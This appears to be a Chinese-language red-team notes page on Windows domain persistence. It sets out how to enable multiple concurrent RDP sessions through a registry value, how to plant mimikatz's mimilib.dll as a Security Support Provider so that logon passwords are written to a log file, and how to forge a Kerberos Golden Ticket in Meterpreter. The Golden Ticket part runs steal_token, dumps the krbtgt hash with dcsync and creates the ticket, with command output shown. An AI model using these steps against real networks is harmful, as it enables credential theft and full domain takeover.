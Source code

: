### 多地登陆管理员账号

查看注册表

```
\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\fSingleSessionPerUser
```

1是不允许多地远程，

0,是允许，03以上的系统基本上默认都是为1不允许所以这里就需要我们更改这个

### SSP(Security Support Provider)

**原理**

https://uknowsec.cn/posts/notes/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%9F%9F%E7%BB%B4%E6%9D%83.html

**利用**

```
将mimikatz下的mimilib.dll 拷贝到 C:\windows\system32的目录下

添加Security Packages
```

![image-20210110181328115](C:\Users\Rainbow\AppData\Roaming\Typora\typora-user-images\image-20210110181328115.png)

重启成功，如果有用户成功登录到当前系统中,会在 c:\windows\system32 目录下生成一个用于记录登账账号密码的 kiwissp.log 文件

### 黄金票据

Golden Ticket是通过伪造的 TGT（TicketGranting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的ST。可以说有了金票就有了域内的最高权限。

**条件**

```
1、域名称
2、域的SID值
3、域的KRBTGT账户密码HASH
4、伪造用户名，可以是任意的
```

MSF 中使用

```
# 在msf中先steal_token一个域管理员的进程，然后才可以执行下面的命令。一开始使用`impersonate_token`获取的域管理员身份不起作用。

meterpreter > steal_token 1964
Stolen token with username: KING\administrator
meterpreter > dcsync
dcsync       dcsync_ntlm  
meterpreter > dcsync_ntlm krbtgt
[+] Account   : krbtgt
[+] NTLM Hash : 16a358115102a4351ee2240d7f983b23
[+] LM Hash   : 8968fb93cc3e6143a62930984b756f62
[+] SID       : S-1-5-21-1100079753-1400930603-3000301551-502
[+] RID       : 502

# 生成黄金票据，会存放在本地的攻击机系统中

golden_ticket_create -u [任意用户名] -d [所在域] -s [SID去除最后三个] -k [krbtgt的ntlm哈希] -t [保存文件的路径和名字]

meterpreter > golden_ticket_create -u administrator -d king.com -s S-1-5-21-1100079753-1400930603-3000301551 -k 16a358115102a4351ee2240d7f983b23 -t golden.kiribi

# 删除目标机器其他票据
meterpreter > kerberos_ticket_list
meterpreter > kerberos_ticket_purge
```